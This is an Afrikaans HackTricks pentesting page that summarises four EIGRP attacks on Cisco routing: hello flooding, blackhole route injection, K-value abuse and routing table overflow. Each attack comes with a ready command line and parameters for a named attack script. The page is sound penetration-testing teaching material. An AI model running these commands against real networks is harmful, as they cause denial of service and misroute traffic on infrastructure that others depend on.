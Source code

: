 # EIGRP Aanvalle

{{#include ../../banners/hacktricks-training.md}}

**Dit is 'n opsomming van die aanvalle wat blootgestel is in** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Kyk daarna vir verdere inligting.

## **Valse EIGRP Bure Aanval**

- **Doel**: Om router CPU's te oorlaai deur hulle te oorstroom met EIGRP hello-pakkette, wat moontlik kan lei tot 'n Denial of Service (DoS) aanval.
- **Gereedskap**: **helloflooding.py** skrip.
- **Uitvoering**:
%%%bash
~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
%%%
- **Parameters**:
- `--interface`: Spesifiseer die netwerkinterface, bv. `eth0`.
- `--as`: Definieer die EIGRP outonome stelselnommer, bv. `1`.
- `--subnet`: Stel die subnet ligging, bv. `10.10.100.0/24`.

## **EIGRP Swartgat Aanval**

- **Doel**: Om netwerkverkeer te ontwrig deur 'n valse roete in te spuit, wat lei tot 'n swartgat waar die verkeer na 'n nie-bestaande bestemming gelei word.
- **Gereedskap**: **routeinject.py** skrip.
- **Uitvoering**:
%%%bash
~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
%%%
- **Parameters**:
- `--interface`: Spesifiseer die aanvaller se stelselintegrasie.
- `--as`: Definieer die EIGRP AS nommer.
- `--src`: Stel die aanvaller se IP-adres.
- `--dst`: Stel die teiken subnet IP.
- `--prefix`: Definieer die masker van die teiken subnet IP.

## **Misbruik van K-Waarde Aanval**

- **Doel**: Om voortdurende ontwrigtings en herverbindinge binne die EIGRP domein te skep deur veranderde K-waardes in te spuit, wat effektief lei tot 'n DoS aanval.
- **Gereedskap**: **relationshipnightmare.py** skrip.
- **Uitvoering**:
%%%bash
~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
%%%
- **Parameters**:
- `--interface`: Spesifiseer die netwerkinterface.
- `--as`: Definieer die EIGRP AS nommer.
- `--src`: Stel die IP-adres van 'n wettige router.

## **Routeringstabel Oorloop Aanval**

- **Doel**: Om die router se CPU en RAM te belas deur die routeringstabel met talle valse roetes te oorstroom.
- **Gereedskap**: **routingtableoverflow.py** skrip.
- **Uitvoering**:
%%%bash
sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
%%%
- **Parameters**:
- `--interface`: Spesifiseer die netwerkinterface.
- `--as`: Definieer die EIGRP AS nommer.
- `--src`: Stel die aanvaller se IP-adres.

{{#include ../../banners/hacktricks-training.md}}
